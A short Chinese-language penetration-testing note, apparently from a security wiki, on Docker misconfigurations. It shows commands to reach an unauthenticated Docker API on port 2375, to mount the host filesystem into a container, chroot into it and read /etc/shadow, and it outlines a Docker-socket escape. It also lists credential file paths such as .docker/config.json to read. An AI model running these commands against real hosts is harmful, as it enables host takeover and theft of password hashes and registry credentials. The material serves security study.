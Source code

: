 Docker守护进程启动参数，读取配置文件：

> /usr/lib/systemd/system/docker.service  
> /etc/docker/daemon.json  
> find / -name “docker-compose._“  
> cat /home/_/.docker/config.json

## 错误配置

### 未授权访问

```text
curl localhost:2375/version
```

![](../../.gitbook/assets/image%20%28591%29.png)

```text
export DOCKER_HOST="tcp://localhost:2375"
```

将宿主机目录挂载Docker/host/目录下，并通过chroot切换bash

> ```bash
> docker images
> docker run -it -v /:/host/ ubuntu:18.04 bash
> cd /host/
> chroot ./ bash
> cat /etc/shadow
> ```

![](../../.gitbook/assets/image%20%28599%29.png)

#### 挂载Docker Socket

当容器可以访问docker socket时，可以通过与daemon的通信对其进行恶意操纵完成逃逸，容器A能访问docker socket便可在容器中安装docker client，通过docket.sock与宿主机进行交互，运行并切换至不安全的容器B中控制宿主机。

利用条件：

* 一个容器权限
* 拥有访问Docket Socket权限。
